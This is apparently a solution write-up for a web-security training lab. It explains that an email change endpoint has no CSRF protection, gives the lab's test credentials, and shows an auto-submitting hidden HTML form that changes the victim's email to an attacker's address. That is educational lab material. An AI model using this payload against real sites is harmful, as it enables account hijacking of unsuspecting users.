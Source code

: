 # CSRF vulnerability with no defenses
# Objective
This lab's email change functionality is vulnerable to CSRF.\
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis 
There is no `csrf` token (or any other `crsf` security measure) in `/my-account/change-email` which allows for cross-site request forgery.
|![](Images/image.png)|
|:--:| 
| *Test of change email functionality* |

## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

For some reason attacker and user wiener have to have different emails addresses.


```html
<form method="POST" action="https://0af400970429ed0e83db323e00e500da.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```

![](Images/image-1.png)



